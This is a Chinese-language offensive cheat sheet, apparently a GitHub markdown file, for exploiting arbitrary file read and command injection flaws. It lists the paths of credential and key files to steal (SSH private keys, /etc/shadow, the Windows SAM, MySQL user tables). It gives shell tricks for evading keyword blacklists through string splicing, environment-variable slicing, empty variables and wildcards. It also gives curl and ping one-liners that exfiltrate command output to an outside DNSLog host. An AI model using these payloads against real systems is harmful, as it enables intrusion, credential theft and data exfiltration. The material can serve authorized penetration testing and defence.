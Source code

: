 # 漏洞利用技巧速查

## 任意文件下载/读取

### 常见敏感文件路径

#### Windows系统

```
C:\boot.ini	# 查看系统版本
C:\Windows\System32\inetsrv\MetaBase.xml	# IIS配置文件
C:\Windows\repair\sam	# 系统初次安装密码
C:\Program Files\mysql\my.ini	# MySQL系统配置
C:\Program Files\mysql\data\mysql\user.MYD	# MySQL用户密码
C:\Windows\php.ini	# php配置文件
C:\Windows\win.ini	# Windows配置文件
```

#### Linux系统

```
/root/.ssh/authorized_keys	# 公钥文件
/root/.ssh/id_rsa	# 私钥文件
/root/.ssh/known_hosts	# 每个访问计算机用户的公钥
/etc/passwd	# 用户信息
/etc/shadow	# 用户密码信息
/etc/my.conf	# MySQL配置文件
/etc/httpd/conf/httpd.conf	# Apache配置文件
/root/.bash_history	# 历史命令
/root/.mysql_history	# MySQL历史命令
/var/lib/mlocate/mlocate.db	# 全文件路径
/usr/local/app/apache2/conf/httpd.conf	# P、Apache2默认配置文件
/usr/local/app/apache2/conf/extra/httpd-vhosts.conf	# 虚拟网站设置
/usr/local/app/php7/lib/php.ini	# php配置文件
/etc/php5/apache2/php.ini	# Ubuntu默认php配置文件路径
```

## 黑名单关键字绕过

### 字符串拼接绕过

```
a=c;b=at;c=tex;d=t;$a$b ${c}${d}
```

### 环境变量绕过

```
echo ${SHELLOPTS} 
echo ${SHELLOPTS:3:1} 
${SHELLOPTS:3:1}at${IFS}text
```

### 空变量绕过

```
cat t${x}ext
```

### 通配符绕过

```
/bin/ca? tex? 
```

## DnsLog

### Command Execution

#### Linux

```
curl http://ip.port.<your_identifier>.ceye.io/`whoami`
ping `whoami`.ip.port.<your_identifier>.ceye.io
```

#### Windows

```
ping %USERNAME%.<your_identifier>.ceye.io
```

